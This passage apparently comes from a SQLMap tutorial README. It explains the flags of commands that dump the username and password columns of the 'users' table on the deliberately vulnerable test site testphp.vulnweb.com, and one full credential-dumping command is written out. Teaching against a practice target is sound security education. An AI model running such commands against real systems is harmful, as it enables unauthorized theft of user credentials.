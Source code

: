 - `-D acuart`: Specifies the target database (`acuart` in this case).
- `-T users`: Specifies the target table (`users` in this case).
- `-C uname`: Specifies the target column (`uname` in this case).
- `--dump`: Instructs SQLMap to dump the data from the specified column.

### **Explanation**
This command targets the `uname` column within the `users` table of the `acuart` database and instructs SQLMap to dump the data from that column.

![](Assets/Image5.png)

---

## **Command 5: Dumping Passwords**

### **Command Syntax**
```bash
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart -T users -C pass --dump
```

- `-D acuart`: Specifies the target database (`acuart` in this case).
- `-T users`: Specifies the target table (`users` in this case).
- `-C pass`: Specifies the target column (`pass` in this case).
- `--dump`: Instructs SQLMap to dump the data from the specified column.

### **Explanation**
This command targets the `pass` column within the `users` table of the `acuart` database and instructs SQLMap to dump the data from that column.
